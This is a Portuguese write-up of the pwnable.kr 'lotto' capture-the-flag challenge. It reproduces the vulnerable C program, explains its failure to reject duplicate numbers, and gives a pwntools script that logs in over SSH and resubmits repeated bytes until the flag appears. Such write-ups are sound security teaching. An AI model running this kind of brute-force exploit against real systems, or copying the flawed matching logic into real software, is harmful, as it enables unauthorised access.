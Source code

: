 # lotto
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Operating logic]

## Sobre o Desafio  

Mamãe! Fiz um programa de loteria para meu dever de casa.
você quer jogar?

ssh lotto@pwnable.kr -p2222 (pw:guest)

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php#)

## Solução

O desafio proposto fornece as seguintes informações: uma pessoa criou um jogo de loteria e concedeu acesso a um servidor SSH. Dentro desse servidor, há três arquivos: `lotto`, `lotto.c` e `flag`.

![image](https://github.com/user-attachments/assets/afd67885-fbed-4b0d-92bf-46c9e5cc03a9)

O arquivo `lotto.c` contém o código-fonte do jogo, responsável pela mecânica da loteria.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

        int i;
        printf("Submit your 6 lotto bytes : ");
        fflush(stdout);

        int r;
        r = read(0, submit, 6);

        printf("Lotto Start!\n");
        //sleep(1);

        // generate lotto numbers
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1){
                printf("error. tell admin\n");
                exit(-1);
        }
        unsigned char lotto[6];
        if(read(fd, lotto, 6) != 6){
                printf("error2. tell admin\n");
                exit(-1);
        }
        for(i=0; i<6; i++){
                lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
        }
        close(fd);

        // calculate lotto score
        int match = 0, j = 0;
        for(i=0; i<6; i++){
                for(j=0; j<6; j++){
                        if(lotto[i] == submit[j]){
                                match++;
                        }
                }
        }

        // win!
        if(match == 6){
                system("/bin/cat flag");
        }
        else{
                printf("bad luck...\n");
        }

}

void help(){
        printf("- nLotto Rule -\n");
        printf("nlotto is consisted with 6 random natural numbers less than 46\n");
        printf("your goal is to match lotto numbers as many as you can\n");
        printf("if you win lottery for *1st place*, you will get reward\n");
        printf("for more details, follow the link below\n");
        printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
        printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

        // menu
        unsigned int menu;

        while(1){

                printf("- Select Menu -\n");
                printf("1. Play Lotto\n");
                printf("2. Help\n");
                printf("3. Exit\n");

                scanf("%d", &menu);

                switch(menu){
                        case 1:
                                play();
                                break;
                        case 2:
                                help();
                                break;
                        case 3:
                                printf("bye\n");
                                return 0;
                        default:
                                printf("invalid menu\n");
                                break;
                }
        }
        return 0;
}
```

O código acima define a função `play()`, responsável pelo jogo de loteria.

A entrada dos números da loteria é processada por este trecho:

```c
int i;
printf("Submit your 6 lotto bytes : ");
fflush(stdout);
int r;
r = read(0, submit, 6);
```

Aqui, o usuário insere 6 números, armazenados no `array` submit. O comando `read(0, submit, 6)` lê 6 bytes da entrada padrão (`stdin`).

O código gera números aleatórios usando `/dev/urandom`:

```c
int fd = open("/dev/urandom", O_RDONLY);
if(fd==-1){
        printf("error. tell admin\n");
        exit(-1);
}
```

Os 6 bytes aleatórios são lidos e armazenados no array `lotto`:

```c
unsigned char lotto[6];
if(read(fd, lotto, 6) != 6){
        printf("error2. tell admin\n");
        exit(-1);
}
```

Os números são então convertidos para valores entre 1 e 45:

```c
for(i=0; i<6; i++){
        lotto[i] = (lotto[i] % 45) + 1;
}
```

A vulnerabilidade lógica está na verificação dos números correspondentes. O código conta quantas vezes um número do usuário (submit) aparece no array `lotto`, permitindo contagens repetidas:

```c
int match = 0, j = 0;
for(i=0; i<6; i++){
        for(j=0; j<6; j++){
                if(lotto[i] == submit[j]){
                        match++;
                }
        }
}
```

Caso o usuário acerte 6 números (considerando a falha na contagem), o programa exibe o conteúdo do arquivo `flag`:

```c
if(match == 6){
        system("/bin/cat flag");
}
else{
        printf("bad luck...\n");
}
```

Se os números não forem todos reconhecidos, a mensagem `"bad luck..."` é exibida.

Com base nessa falha, é possível aumentar as chances de ganhar. O código a seguir automatiza essa tentativa:

```python
from pwn import *

sh = ssh('lotto', '128.61.240.205', password='guest', port=2222)
p = sh.process('./lotto')

for i in range(1000):
    p.recv()
    p.sendline(b'1')
    p.recv()
    p.sendline(b'------')
    _, ans = p.recvlines(2)
    
    if b"bad" not in ans:
        print(ans.decode())
        break
```

O script Python estabelece uma conexão com o servidor SSH utilizando as credenciais fornecidas e, em seguida, executa o programa `lotto`. Para explorar a vulnerabilidade identificada, ele repete o processo de jogo mil vezes. A cada iteração, o script envia o número `1` para selecionar a opção de jogar e insere a sequência de caracteres `b'------'` como entrada, `-` equivale a 45 em decimal, aproveitando a falha na contagem de números repetidos. Após cada tentativa, a resposta do programa é analisada para verificar se a mensagem `"bad luck"` está presente. Caso essa mensagem não apareça, significa que o exploit funcionou e a `flag` foi obtida, encerrando o loop imediatamente.

![image](https://github.com/user-attachments/assets/dd178db0-a2e6-4e21-9d64-56ed4e3e150f)

> Assim, obtemos a flag `sorry mom... I FORGOT to check duplicate numbers... :(`
